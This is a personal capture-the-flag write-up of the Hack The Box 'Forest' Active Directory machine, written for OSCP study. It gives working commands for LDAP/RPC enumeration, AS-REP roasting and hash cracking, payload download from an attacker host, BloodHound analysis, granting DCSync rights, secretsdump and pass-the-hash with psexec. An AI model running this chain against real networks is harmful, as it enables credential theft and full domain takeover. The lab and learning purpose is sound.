

# Walkthrough
Name: Forest  
Date: 03/06/2022  
Difficulty: Easy / User Average: Medium  
Description: Retired Staff Pick Active Directory machine  
Better Description:  
Goals: OSCP Prep, revise DNS, LDAP, SMB, RPC enumeration; Revise AD attacks from THM stuff.  
Learnt: Habits must change in note taking, I doing ok and the next improvements aren't far away just another 50 machines away.  

This is mainly a hand hold through this machine that will be redone at a later date to test myself. Need to revise and add to cheatsheets also while doing this it pulled up note taking vs writing habits. I will have on the same day uploaded another AD machine from HTB without Ippsec. Basically I love vim too much should use Obsidian more. Note then write stuff.

## Recon

Ran some of the recon weeks ago while reading, coding and hacking, still have some to do. Regardles with the original IP I started enumeration with a ping to check Time to Live field to do OS detection and see if the box responded to ICMP packets:


`TTL for Windows is 128`, but also accept ICMP packets so no need to `-Pn` flag for nmap.

Went through my [SMB Cheatsheet](https://github.com/7RU7H/Archive/blob/main/Recon/Active-Information-Gathering/SMB/SMB-Recon-Cheatsheet.md) and found using rcp null attack. I had read about it from a cheatsheet and used it in a previous machine and was as amazed as when I learnt about anonymous FTP over a year ago. I am easily pleased.

```bash
rpcclient -U "" -N $IP
```


The above was some of the stuff I tried, found another cheatsheet to added to my current RPC Cheatsheet, while nmap ran:
```bash
nmap --script=ldap-search -p 389 --script-args ldap.maxobjects=-1 -oA nmap/ldap-search 10.129.95.210
```
Then tried some the ldapsearch from [LDAP Cheatsheet]()

```bash
ldapsearch -LLL -x -H ldap://htb.local -b '' -s base '(objectclass=*)' 
```
Lots of information and Ippsec reminding the wonders on wildcards and filtering. Changing `'(objectClass=Person)'`

```bash
ldapsearch -LLL -x -H ldap://htb.local -b 'DC=htb,DC=local' '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users.txt
```
I noticed the `HTB\lucinda, HTB\svc-alfresco` User and services and checked them out.

Created a list of Users and Service Principle Names from enum4linux output, while considered how to extract information from extensive LDAP search output.
```bash
cat enumFourLinux.txt | grep "has member" | awk -F ' ' '{ print $8 }' | grep HTB > usersPlusSPNs.txt
```

## Exploit

Watched some Ippsec to learn mote and add more to my LDAP cheatsheet, then paused video to make users.txt; for password spraying. Deleting the excess machine accounts so as to not waste time password spraying with crackmapexec.

The account lockout threshold:0 means Bruteforcable

Using Ippsec knwoledge as a baseline my longawaited [Impacket cheatsheet]() started to take shape over the course today. Learnt about `GetNPUsers.py` and how for users that do not require Kerberos preauthentiation it can grab those hashes. And continued to follow along, while went back and refactored an idea about rule base methodologies as more advanced cheetsheat that could be used as a opposite to YARA rules, for red teaming plus some AI.

```bash
GetNPUSers.py  -dc-ip $IP -request '$domain/' -format hashcat
```
Then cracked with:
```bash
hashcat hash -m 18200 /usr/share/wordlists/rockyou.txt  
```


Then use the credentials to enumerate smb shares



## Foothold

Then evil-winrm with those credentials onto the machine.


Then researched loads of impacket use cases, till I felt like I had a better idea about using it, then learnt how to setup a smb share with impacket-smbserver following along with the video:

```bash
impacket-smbserver scriptserver $(pwd) -smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

## PrivEsc

I instead of Bloodhound at first wanted to use [ADAPE](https://github.com/hausec/ADAPE-Script) and [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). Also general AD PrivEsc manually to add to me very lack luster Active Directory Privilege Escalation Cheastsheet.  I tried setting up an smbserver but I did not work then went to the trusty

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$ip:$port/powerview.ps1','C:\Users\svc-alfresco\Desktop\powerview.ps1')"
```

ADAPE requires `set-executionpolicy bypass`, which `svc-alfresco` user can't set. I tried I powerview.ps1 and then remember the pain of trying to get sharphound to work in the earlier part of this year to no success so also tried that. 
```bash
ulimit -n 40000 
# THEN
sudo neo4j console
# THEN goto localhost:7474
```
Default credentials
USER: neo4j
PASS: neo4j

```bash
cd /tmp; curl https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.4/SharpHound-v1.0.4.zip -oL SharpHound.zip

```
Use the same file transfer method as before
```powershell
.\SharpHound.exe -c all
```

```bash
bloodhound --no-sandbox
```
Following along with Ippsec after the agony of SharpHound maddness. I needed to get smbserver to work to transfer host a server. So went back to retry making smbserver. It felt amazing making that finally work. Wow.
Transfered the sharphound output zip file and dragged it into Bloodhound, watch some more Ippsec for how to go where to look - definately need to improve in this respect as to my person maentyal mapping to the groupings and how to fid weak points.


Basically TL;DR/watch Ippsec explain is that the Account Operators Group can make accounts and svc-alfresco is part of that group and there is the Exchange server connected to it that the Account.
```powershell
net user $user $password /add /domain
net group "Exchange Windows Permissions" /add $user
```
My Bloodhound did not represent the chain to DC from Exchange Windows Permissions group, so I used the `Reachable Highest Value Targets` query here
This is not correct as some weird occured; following along 


And the full glory of the Forest Machine and Bloodhound:


Cool thing I already uploaded powerview! 

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
# What Bloodhound suggested, it did not work.
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
# Actual path: get the dev branch of PowerView
# add the the end of the git clone -b dev
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity wallace -Rights DCSync
# impacket tool secretsdump
impacket-secretsdump htb/$user:password@ip
crackmapexec smb $ip -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.95.210

```


